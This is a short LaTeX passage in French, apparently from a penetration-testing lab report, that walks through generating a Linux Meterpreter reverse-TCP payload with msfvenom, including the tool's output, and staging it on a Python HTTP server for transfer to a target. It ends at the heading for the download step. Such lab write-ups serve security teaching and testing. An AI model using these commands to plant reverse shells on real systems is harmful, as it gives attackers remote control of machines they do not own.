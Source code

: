 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\subsection{Création du Payload Meterpreter}
	
	Sur la machine attaquante (Parrot Security), nous générons un exécutable Meterpreter :
	
	\begin{lstlisting}[caption=Génération avec msfvenom]
		$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 \
		LPORT=4445 \
		-f elf \
		-o meterpreter.elf
		
		[-] No platform was selected, choosing Msf::Module::Platform::Linux
		[-] No arch selected, selecting arch: x64
		No encoder specified, outputting raw payload
		Payload size: 130 bytes
		Final size of elf file: 250 bytes
		Saved as: meterpreter.elf
	\end{lstlisting}
	
	\textbf{Explication des paramètres :}
	\begin{description}
		\item[-p linux/x64/meterpreter/reverse\_tcp] Payload Meterpreter pour Linux 64-bit avec connexion inverse.
		\item[LHOST] Adresse IP de l'attaquant où le payload se connectera.
		\item[LPORT] Port d'écoute sur la machine attaquante.
		\item[-f elf] Format ELF (Executable and Linkable Format pour Linux).
	\end{description}
	
	\subsection{Hébergement du Payload}
	
	Pour transférer le payload vers la cible, nous utilisons un serveur HTTP temporaire :
	
	\begin{lstlisting}[caption=Serveur HTTP Python]
		$ python3 -m http.server 8000
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	\end{lstlisting}
	
	\section{Déploiement sur la Cible}
	
	\subsection{Téléchargement du Payload}
	
\end{document}
